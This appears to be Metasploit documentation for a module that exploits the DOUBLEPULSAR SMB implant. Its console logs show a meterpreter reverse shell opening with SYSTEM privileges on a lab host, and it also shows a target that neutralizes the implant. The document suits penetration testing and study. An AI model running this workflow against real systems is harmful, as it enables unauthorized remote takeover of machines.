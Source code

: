 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for SMB as popularly deployed by ETERNALBLUE.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf5 exploit(windows/smb/doublepulsar_rce) > check

[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[+] 192.168.56.115:445 - The target is vulnerable.
msf5 exploit(windows/smb/doublepulsar_rce) >
```

Executing a payload:

```
msf5 exploit(windows/smb/doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf5 exploit(windows/smb/doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:445 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:445 - Encrypting shellcode with XOR key 0x33C6DC64
[*] 192.168.56.115:445 - Sending shellcode to DOUBLEPULSAR
[+] 192.168.56.115:445 - Payload execution successful
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-09-25 18:26:47 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf5 exploit(windows/smb/doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf5 exploit(windows/smb/doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:445 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf5 exploit(windows/smb/doublepulsar_rce) >
```
